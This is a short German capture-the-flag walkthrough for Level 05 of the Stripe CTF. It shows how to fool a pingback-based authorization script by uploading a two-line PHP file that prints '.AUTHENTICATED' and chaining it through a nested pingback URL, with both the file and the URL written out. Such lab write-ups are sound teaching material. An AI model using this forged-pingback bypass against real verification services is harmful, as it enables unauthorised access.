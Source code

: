 LEVEL 05
========

User: .AUTHENTICATED

Open ?pingback=https://level02-2.stripe-ctf.com/user-nzqlfdsupg/uploads/test.php

---

Level 05 ist ein Authorisierungsscript, dass von einem externen Pingback gesagt bekommt, ob der User nun valide ist oder nicht. Wir erinnern uns an Level 2 und packen dort das furchtbar kurze Script drauf: 

    <?php
      echo "\n.AUTHENTICATED\n";
    ?>

Der User wird also mit dem Link zu diesem Script immer autorisiert - jedoch nicht auf dem korrekten Server! Um das dann wiederum zu erreichen geben wir als Pingback folgenden Link ein:

    https://level05-1.stripe-ctf.com/user-XXXX/?pingback=https://level02-2.stripe-ctf.com/user-XXXX/uploads/test.php

(hier natürlich eure Server/Usernames anpassen)
Als Nutzername tragen wir .AUTHENTICATED ein - das Script läuft jetzt ein mal im Kreis und autorisiert euch auf dem richtigen Server.